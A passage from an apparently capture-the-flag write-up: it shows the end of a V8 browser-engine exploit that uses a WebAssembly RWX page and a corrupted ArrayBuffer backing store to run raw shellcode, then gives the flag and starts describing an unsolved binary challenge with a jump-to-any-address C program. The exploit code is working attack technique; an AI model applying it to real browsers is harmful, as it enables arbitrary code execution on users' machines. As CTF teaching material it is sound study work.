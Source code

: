 And then use wasm + `ArrayBuffer`s to execute arbitrary shellcode:

```js
// Standard rwx shellcode execution
var wasm_code = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11])
var wasm_mod = new WebAssembly.Module(wasm_code);
var wasm_instance = new WebAssembly.Instance(wasm_mod);
var shellcode = wasm_instance.exports.main;
var wasm_addr = getaddr(wasm_instance);
let rwx_addr = read64(wasm_addr+8n*13n);
console.log('rwx page: ' + hex(rwx_addr));

let buf = new ArrayBuffer(0x100);
let uint32_arr = new Uint32Array(buf);
let backing_store_deref = getaddr(buf)+12n*8n;
console.log('altering backing store @ '+hex(backing_store_deref));
write64(backing_store_deref, rwx_addr)
var sc = [0x905f3eeb, 0x48909090, 0x204c031, 0xff63148, 0xec816605, 0x8d480fff, 0x89482434, 0xd23148c7, 0xfffba66, 0xfc03148, 0xff314805, 0x1c78040, 0x48c28948, 0x104c031, 0x8166050f, 0xc30fffc4, 0xffffbde8, 0x6c662fff, 0x742e6761, 0x007478] // cribbed from the original 20 lines of write32() calls provided
for (let i = 0; i < sc.length; i++) uint32_arr[i] = sc[i];
console.log('executing shellcode!')
shellcode();
```

That's it.

`uiuctf{v8_go_brrrr_e72df103}`

## Gonnegtions [unsolved :(]

I understand you're looking for a business gonnegtion. Maybe you can find one on `44.193.84.190`.

**author**: kmh

**files**: `Dockerfile` (implies `libc6-i386_2.31-0ubuntu9.2_amd64`), `gonnegtions`:

```python
    Arch:     i386-32-little   (!)
    RELRO:    Partial RELRO    (!)
    Stack:    Canary found
    NX:       NX disabled      (!)
    PIE:      PIE enabled
    RWX:      Has RWX segments (!)
```

## Solving locally

The program is really simple:

```c
int main() {
  void (*f)();
  setvbuf(stdout, 0, 2, 0);
  printf("Where to? ");
  scanf("%lu", &f);
  f();
}
```
